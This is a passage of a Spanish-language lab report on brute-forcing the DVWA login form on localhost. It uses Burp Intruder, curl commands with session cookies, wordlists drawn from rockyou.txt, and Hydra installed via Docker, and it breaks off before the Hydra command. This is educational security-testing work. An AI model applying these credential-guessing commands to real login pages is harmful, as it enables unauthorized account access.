    
\includegraphics[width=1\linewidth]{identificaryobtenercamposburp/Captura desde 2025-10-01 23-27-12.png}
    \caption{Respuesta web ante una combinación válida de usuario y contraseña}
    \label{fig:intrudersuccesfulattack}
\end{figure}
\subsection{Obtención de diccionarios para el ataque (burp)}
En el laboratorio se emplearon diccionarios reducidos construidos a partir de fuentes públicas reconocidas, haciendo énfasis en un uso \textbf{ético} y autorizado. El conjunto de contraseñas se obtuvo del fichero \texttt{rockyou.txt} descargado desde \url{https://weakpass.com/wordlists/rockyou.txt}; de él se extrajo un subconjunto ligero limitado a credenciales de muy alta frecuencia (patrones como \texttt{password}, \texttt{abc123}, \texttt{letmein}, \texttt{123456}) para acelerar las comparaciones entre herramientas. Para nombres de usuario se combinaron entradas mínimas (usuarios genéricos \texttt{admin}, \texttt{root}, \texttt{test}, etc.) con los identificadores visibles en la propia instancia DVWA (\texttt{admin}, \texttt{gordonb}, \texttt{pablo}, \texttt{smithy}). Tras eliminar duplicados y aplicar filtros de longitud y carácter (alfanumérico 4--12), se generaron las listas finales empleadas por Burp Intruder, Hydra y el script en Python: \texttt{usuarios\_light.txt} y \texttt{contrasenas\_light.txt}. Este enfoque reducido prioriza la demostración. En la figura \ref{fig:rockyouweb} se muestra un fragmento del diccionario original \texttt{rockyou.txt}. 
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Captura desde 2025-10-03 03-13-07.png}
    \caption{Diccionario rockyou.txt (fragmento)}
    \label{fig:rockyouweb}
\end{figure}


\subsection{Obtención de al menos 2 pares (burp)}
La ejecución del ataque \emph{Cluster bomb} en Intruder produjo combinaciones cruzadas usuario/contraseña de las listas ligeras cargadas. En la Figura~\ref{fig:ventanaintruderdoble} se aprecian solicitudes con código 200 y longitudes de respuesta diferenciadas:\\ las entradas donde el par coincide (\texttt{admin:password} y \texttt{gordonb:abc123}) muestran un tamaño ligeramente mayor y, al inspeccionar el cuerpo HTML (panel inferior), aparece el mensaje ``Welcome to the password protected area'' \\ seguido de la imagen de perfil \texttt{/hackable/users/<usuario>.jpg}. Estas evidencias permiten confirmar de forma inequívoca dos credenciales válidas para DVWA en nivel de seguridad bajo.
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Captura desde 2025-10-03 01-09-41.png}
    \caption{Respuesta web ante una combinación válida de usuario y contraseña}
    \label{fig:ventanaintruderdoble}
\end{figure}
\subsection{Obtención de código de inspect element (curl)}
Esta subsección documenta la captura y descomposición de la solicitud real que genera Firefox al interactuar con el formulario de fuerza bruta de DVWA. Se trabajó sobre la interfaz \emph{Network} de las Herramientas de Desarrollador de Firefox con la aplicación configurada en nivel de seguridad \texttt{low}. Tras emitir un intento de autenticación (válido o arbitrario), el navegador registra una solicitud principal de tipo \texttt{GET} contra:
\begin{verbatim}
/vulnerabilities/brute/?username=<USUARIO>&password=<CLAVE>&Login=Login
\end{verbatim}
Los elementos relevantes observados fueron:
\begin{itemize}
        \item \textbf{Método y semántica}: El formulario opera mediante \texttt{GET}; los campos \texttt{username}, \texttt{password} y el disparador \texttt{Login=Login} quedan expuestos en la query string, lo que facilita su reproducción exacta.
    \item \textbf{Encabezados mínimos}: \texttt{Host}, \texttt{User-Agent}, \texttt{Referer}, \texttt{Accept}, \\
    	exttt{Connection: keep-alive}, \\ \texttt{Upgrade-Insecure-Requests} y el conjunto de \texttt{Sec-Fetch-*}. \\
    Para DVWA en \texttt{low}, sólo \texttt{Host} y las cookies son estrictamente necesarios.
        \item \textbf{Cookies de estado}: Dos valores resultan críticos: \texttt{PHPSESSID} (identificador de sesión) y \texttt{security=low}. Su ausencia provoca redirección o cambio de superficie de ataque. Se obtuvieron desde la subpestaña \emph{Cookies} asociada a la misma entrada de red.
    \item \textbf{Indicador de éxito}: El HTML exitoso contiene la cadena ``Welcome to the password protected area'' \\
    y referencia a \texttt{/hackable/users/\allowbreak<usuario>.jpg} (sólo presente si las credenciales son válidas). \\
    En fallos aparece un mensaje de error dentro de \texttt{<pre>}. Este patrón se reutiliza más adelante para la detección automática (script e Hydra).
\end{itemize}
Con la información precedente, la reconstrucción manual de la interacción se reduce a un comando cURL mínimo donde sólo se precisa la URL con sus parámetros y la inyección explícita de cookies:
\begin{verbatim}
curl "http://localhost:8889/vulnerabilities/brute/?username=admin&password=password&Login=Login" \
    -b "PHPSESSID=<valor_sesion>; security=low"
\end{verbatim}
La inclusión de cabeceras adicionales (p.ej. \texttt{-H "User-Agent: ..."}) sólo persigue mimetizar el perfil de un navegador completo y no altera el resultado lógico en este escenario de baja seguridad. Las Figuras \ref{fig:inspectelement} y \ref{fig:inspectelementcookie} muestran, respectivamente, la captura de tráfico y el panel de cookies del que se extrajeron los valores incorporados al comando reproducido.
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{curl/Captura desde 2025-10-01 23-42-53.png}
    \caption{Captura de pantalla de navegador web con inspect element abierto}
    \label{fig:inspectelement}
\end{figure}
\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{curl/Captura desde 2025-10-01 23-43-11.png}
    \caption{Obtención de ID de sesión PHP desde una cookie en inspect element}
    \label{fig:inspectelementcookie}
\end{figure}
\subsection{Utilización de curl por terminal (curl)}

\noindent\textbf{Ejemplo de solicitud y respuesta EXITOSA con cURL.} A continuación se muestra la ejecución de cURL utilizando el par de credenciales válido \texttt{admin:password} y la cookie de sesión previamente obtenida (\texttt{PHPSESSID} y el nivel de seguridad en \texttt{low}). Se incluye la respuesta HTML completa para evidenciar: (1) el mensaje de bienvenida, (2) la aparición del nombre de usuario \texttt{admin} y (3) la carga de la imagen de perfil \texttt{/hackable/users/admin.jpg}, indicadores claros de autenticación correcta.
\begin{verbatim}
$ curl "http://localhost:8889/vulnerabilities/brute/?username=admin&password=password&Login=Login" \
-b "PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low"

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

	<head>
		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />

		<title>Vulnerability: Brute Force :: Damn Vulnerable Web Application (DVWA) v1.10 *Development*</title>

		<link rel="stylesheet" type="text/css" href="../../dvwa/css/main.css" />

		<link rel="icon" type="\image/ico" href="../../favicon.ico" />

		<script type="text/javascript" src="../../dvwa/js/dvwaPage.js"></script>

	</head>

	<body class="home">
		<div id="container">

			<div id="header">

				<img src="../../dvwa/images/logo.png" alt="Damn Vulnerable Web Application" />

			</div>

			<div id="main_menu">

				<div id="main_menu_padded">
				<ul class="menuBlocks"><li class=""><a href="../../.">Home</a></li>
<li class=""><a href="../../instructions.php">Instructions</a></li>
<li class=""><a href="../../setup.php">Setup / Reset DB</a></li>
</ul><ul class="menuBlocks"><li class="selected"><a href="../../vulnerabilities/brute/">Brute Force</a></li>
<li class=""><a href="../../vulnerabilities/exec/">Command Injection</a></li>
<li class=""><a href="../../vulnerabilities/csrf/">CSRF</a></li>
<li class=""><a href="../../vulnerabilities/fi/.?page=include.php">File Inclusion</a></li>
<li class=""><a href="../../vulnerabilities/upload/">File Upload</a></li>
<li class=""><a href="../../vulnerabilities/captcha/">Insecure CAPTCHA</a></li>
<li class=""><a href="../../vulnerabilities/sqli/">SQL Injection</a></li>
<li class=""><a href="../../vulnerabilities/sqli_blind/">SQL Injection (Blind)</a></li>
<li class=""><a href="../../vulnerabilities/weak_id/">Weak Session IDs</a></li>
<li class=""><a href="../../vulnerabilities/xss_d/">XSS (DOM)</a></li>
<li class=""><a href="../../vulnerabilities/xss_r/">XSS (Reflected)</a></li>
<li class=""><a href="../../vulnerabilities/xss_s/">XSS (Stored)</a></li>
<li class=""><a href="../../vulnerabilities/csp/">CSP Bypass</a></li>
<li class=""><a href="../../vulnerabilities/javascript/">JavaScript</a></li>
</ul><ul class="menuBlocks"><li class=""><a href="../../security.php">DVWA Security</a></li>
<li class=""><a href="../../phpinfo.php">PHP Info</a></li>
<li class=""><a href="../../about.php">About</a></li>
</ul><ul class="menuBlocks"><li class=""><a href="../../logout.php">Logout</a></li>
</ul>
				</div>

			</div>

			<div id="main_body">

				
<div class="body_padded">
	<h1>Vulnerability: Brute Force</h1>

	<div class="vulnerable_code_area">
		<h2>Login</h2>

		<form action="#" method="GET">
			Username:<br />
			<input type="text" name="username"><br />
			Password:<br />
			<input type="password" AUTOCOMPLETE="off" name="password"><br />
			<br />
			<input type="submit" value="Login" name="Login">

		</form>
		<p>Welcome to the password protected area admin</p><img src="/hackable/users/admin.jpg" />
	</div>

	<h2>More Information</h2>
	<ul>
		<li><a href="https://www.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004)" target="_blank">https://www.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004)</a></li>
		<li><a href="http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password" target="_blank">http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password</a></li>
		<li><a href="http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html" target="_blank">http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html</a></li>
	</ul>
</div>

				<br /><br />
				

			</div>

			<div class="clear">
			</div>

			<div id="system_info">
				<input type="button" value="View Help" class="popup_button" id='help_button' data-help-url='../../vulnerabilities/view_help.php?id=brute&security=low' )"> <input type="button" value="View Source" class="popup_button" id='source_button' data-source-url='../../vulnerabilities/view_source.php?id=brute&security=low' )"> <div align="left"><em>Username:</em> admin<br /><em>Security Level:</em> low<br /><em>PHPIDS:</em> disabled</div>
			</div>

			<div id="footer">

				<p>Damn Vulnerable Web Application (DVWA) v1.10 *Development*</p>
				<script src='/dvwa/js/add_event_listeners.js'></script>

			</div>

		</div>

	</body>

</html>
\end{verbatim}
\noindent\textbf{Ejemplo de solicitud y respuesta FALLIDA con cURL.} En este caso se envía una combinación aleatoria (usuario y contraseña inexistentes). La respuesta HTML (incluida íntegramente) muestra el mensaje de error \texttt{Username and/or password incorrect.}, no incorpora la imagen de usuario autenticado ni el párrafo de bienvenida, lo que permite contrastar fácilmente los elementos diferenciales frente al caso exitoso anterior.
\begin{verbatim}
$ curl "http://localhost:8889/vulnerabilities/brute/?username=njnkyuuykmn&password=jnjrjrnfjer&Login=Login" \
-b "PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low"

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

	<head>
		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />

		<title>Vulnerability: Brute Force :: Damn Vulnerable Web Application (DVWA) v1.10 *Development*</title>

		<link rel="stylesheet" type="text/css" href="../../dvwa/css/main.css" />

		<link rel="icon" type="\image/ico" href="../../favicon.ico" />

		<script type="text/javascript" src="../../dvwa/js/dvwaPage.js"></script>

	</head>

	<body class="home">
		<div id="container">

			<div id="header">

				<img src="../../dvwa/images/logo.png" alt="Damn Vulnerable Web Application" />

			</div>

			<div id="main_menu">

				<div id="main_menu_padded">
				<ul class="menuBlocks"><li class=""><a href="../../.">Home</a></li>
<li class=""><a href="../../instructions.php">Instructions</a></li>
<li class=""><a href="../../setup.php">Setup / Reset DB</a></li>
</ul><ul class="menuBlocks"><li class="selected"><a href="../../vulnerabilities/brute/">Brute Force</a></li>
<li class=""><a href="../../vulnerabilities/exec/">Command Injection</a></li>
<li class=""><a href="../../vulnerabilities/csrf/">CSRF</a></li>
<li class=""><a href="../../vulnerabilities/fi/.?page=include.php">File Inclusion</a></li>
<li class=""><a href="../../vulnerabilities/upload/">File Upload</a></li>
<li class=""><a href="../../vulnerabilities/captcha/">Insecure CAPTCHA</a></li>
<li class=""><a href="../../vulnerabilities/sqli/">SQL Injection</a></li>
<li class=""><a href="../../vulnerabilities/sqli_blind/">SQL Injection (Blind)</a></li>
<li class=""><a href="../../vulnerabilities/weak_id/">Weak Session IDs</a></li>
<li class=""><a href="../../vulnerabilities/xss_d/">XSS (DOM)</a></li>
<li class=""><a href="../../vulnerabilities/xss_r/">XSS (Reflected)</a></li>
<li class=""><a href="../../vulnerabilities/xss_s/">XSS (Stored)</a></li>
<li class=""><a href="../../vulnerabilities/csp/">CSP Bypass</a></li>
<li class=""><a href="../../vulnerabilities/javascript/">JavaScript</a></li>
</ul><ul class="menuBlocks"><li class=""><a href="../../security.php">DVWA Security</a></li>
<li class=""><a href="../../phpinfo.php">PHP Info</a></li>
<li class=""><a href="../../about.php">About</a></li>
</ul><ul class="menuBlocks"><li class=""><a href="../../logout.php">Logout</a></li>
</ul>
				</div>

			</div>

			<div id="main_body">

				
<div class="body_padded">
	<h1>Vulnerability: Brute Force</h1>

	<div class="vulnerable_code_area">
		<h2>Login</h2>

		<form action="#" method="GET">
			Username:<br />
			<input type="text" name="username"><br />
			Password:<br />
			<input type="password" AUTOCOMPLETE="off" name="password"><br />
			<br />
			<input type="submit" value="Login" name="Login">

		</form>
		<pre><br />Username and/or password incorrect.</pre>
	</div>

	<h2>More Information</h2>
	<ul>
		<li><a href="https://www.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004)" target="_blank">https://www.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004)</a></li>
		<li><a href="http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password" target="_blank">http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password</a></li>
		<li><a href="http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html" target="_blank">http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html</a></li>
	</ul>
</div>

				<br /><br />
				

			</div>

			<div class="clear">
			</div>

			<div id="system_info">
				<input type="button" value="View Help" class="popup_button" id='help_button' data-help-url='../../vulnerabilities/view_help.php?id=brute&security=low' )"> <input type="button" value="View Source" class="popup_button" id='source_button' data-source-url='../../vulnerabilities/view_source.php?id=brute&security=low' )"> <div align="left"><em>Username:</em> admin<br /><em>Security Level:</em> low<br /><em>PHPIDS:</em> disabled</div>
			</div>

			<div id="footer">

				<p>Damn Vulnerable Web Application (DVWA) v1.10 *Development*</p>
				<script src='/dvwa/js/add_event_listeners.js'></script>

			</div>

		</div>

	</body>

</html>
\end{verbatim}
\subsection{Demuestra 4 diferencias (curl)}

\begin{enumerate}
    \item El acceso válido incluye el mensaje ``Welcome to the password protected area admin'' dentro de un párrafo HTML, mientras que el intento fallido despliega ``Username and/or password incorrect.'' en un bloque preformateado (`<pre>`), evidenciando estados opuestos del formulario.
    \item La respuesta exitosa incorpora la etiqueta `<img src="/hackable/users/admin.jpg" />`, cargando la fotografía asociada al usuario autenticado; en la respuesta inválida no se genera ninguna imagen adicional.
    \item En el caso exitoso aparece la cadena ``admin'' dentro del mensaje de bienvenida, confirmando el usuario autenticado, pero la página con credenciales erróneas no referencia a ningún nombre de usuario en la zona de resultados.
    \item El HTML válido provoca una solicitud extra para obtener `/hackable/users/admin.jpg`, observable en herramientas de monitoreo de tráfico, mientras que el HTML del intento inválido no dispara peticiones adicionales más allá del propio documento.
\end{enumerate}

\subsection{Instalación y versión a utilizar (hydra)}
Para disponer de Hydra se utilizó la imagen oficial \texttt{vanhauser/hydra} disponible en Docker Hub (https://hub.docker.com/r/vanhauser/hydra). Los pasos básicos fueron:
\begin{verbatim}
$ docker pull vanhauser/hydra
$ sudo usermod -aG docker $USER   # habilitar uso de Docker sin sudo
$ cp usuarios.txt contrasenas.txt /tmp
$ cd /tmp
\end{verbatim}

La versión ejecutada dentro del contenedor corresponde a \textbf{Hydra v9.6dev}. Se verificó con el comando:
\begin{verbatim}
$ sudo docker run --rm vanhauser/hydra hydra -v
Hydra v9.6dev (c) 2023 by van Hauser/THC & David Maciejak
...
\end{verbatim}

\subsection{Explicación de comando a utilizar (hydra)}

Para realizar el ataque se ejecutó la imagen oficial de Hydra en Docker y se configuraron los parámetros clave del módulo `http-get-form`:
\begin{itemize}
        \item \verb|--network="host"|: expone la red del contenedor para alcanzar el DVWA publicado en el puerto 8889.
        \item \verb|-v "$(pwd)":/data|: monta el directorio actual dentro del contenedor para compartir diccionarios y registrar el resultado en \verb|/data|.
        \item \verb|-L| y \verb|-P|: apuntan a los diccionarios ligeros de usuarios y contraseñas preparados previamente.
        \item \verb|-s 8889 localhost http-get-form|: especifica el puerto, host y módulo de Hydra que automatiza envíos GET sobre el formulario objetivo.
    \item Cadena del formulario: define los nombres de los campos \verb|username| y \verb|password|, la acción \verb|Login|, inyecta la cookie de sesión y detecta éxito cuando aparece ``Welcome to the password protected area''. La plantilla utilizada fue:
\begin{verbatim}
